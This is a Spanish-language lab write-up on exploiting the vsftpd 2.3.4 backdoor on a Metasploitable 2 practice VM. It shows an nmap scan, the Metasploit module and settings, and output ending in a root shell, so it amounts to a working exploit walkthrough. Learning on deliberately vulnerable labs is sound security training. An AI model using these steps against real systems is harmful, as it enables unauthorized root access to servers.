



# Explotación de vsftpd 2.3.4 Backdoor (Metasploitable 2)

## 🖥️ Información del objetivo

- **IP del objetivo:** `192.168.1.149`
- **Sistema vulnerable:** Metasploitable 2
- **Puerto vulnerable:** `21/tcp`
- **Servicio:** FTP
- **Versión:** vsftpd 2.3.4

## 🔍 Escaneo con Nmap

```bash
nmap -sV -sC -Pn -oN 192.168.1.149_scan.txt 192.168.1.149

Resultado relevante:

21/tcp open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

⚙️ Explotación con Metasploit
1. Abrimos Metasploit
msfconsole

2. Cargamos el exploit
use exploit/unix/ftp/vsftpd_234_backdoor

3. Configuramos el objetivo
set RHOST 192.168.1.149
run

4. Resultado:
[*] 192.168.1.149:21 - Banner: 220 (vsFTPd 2.3.4)
[+] 192.168.1.149:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened

¡Se obtiene acceso como root! 🎉

✅ Conclusión
El servicio FTP vsftpd 2.3.4 contiene una puerta trasera que permite obtener acceso remoto como root sin autenticación.

📷 Capturas.

### 🎯 Lanzamiento de Metasploit:



### 🔍 Escaneo con Nmap:



### 🎉 Shell como root obtenida:

